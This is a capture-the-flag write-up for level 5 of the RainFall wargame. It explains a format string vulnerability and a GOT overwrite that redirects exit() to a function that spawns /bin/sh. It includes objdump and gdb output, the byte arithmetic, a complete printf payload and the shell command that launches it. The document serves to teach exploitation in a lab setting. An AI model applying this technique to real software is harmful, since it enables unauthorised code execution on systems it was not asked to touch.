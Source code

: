 In this level, there is a `main`, `n` and `o` functions. the main calls `n`, that got a printf, but not the `o` function, that open a `/bin/sh`.

In `n` function, there is a format string vulnerability that we can exploit.

Our goal here is to call `o` function by overwritting it in the exit address of the `n` function.

We can use a trick called **GOT (Global Offset Table) overwrite**.

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

We find the address of exit in the GOT :

```
level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit ---> Here
0804983c R_386_JUMP_SLOT   __libc_start_main
```

Next, we want to see where our `printf` writes into the stack : 

> level5@RainFall:~$ ./level5 
AAAA%08x.%08x.%08x.%08x.%08x.%08x     
> AAAA00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e

It writes in the 4th argument.

The address we want to write is the address of the `o` function : `0x080484a4`

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
```

We will write this address in 2 parts, the low order bytes and then the high order.

- Low order bytes = 84a4 (33956 in decimal)
- High order bytes = 0804 (2052 in decimal)

However, the high order bytes is inferior to the low order so, we’ll write the high order first! We just need to invert the addresses where we want to write! Let’s do some math:

- High order bytes = 0804 (2052 in decimal). Minus the 8 bytes for the addresses = 2044 (7FC en hexa)
- Low order bytes = 84a4 (33956 in decimal). Minus the 2052 bytes we already wrote = 31904 (7CC7 en hexa) 

Our exploit is :

`\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn`

Which is : The address of the exit minus 2 bytes + address of the exit + low order bytes +  4th argument + high order bytes 

The command to launch : 

> (python -c 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"' ; cat -) | ./level5


# Sources : 

About the Code Execution Redirect exploit :

- https://axcheron.github.io/exploit-101-format-strings/#code-execution-redirect
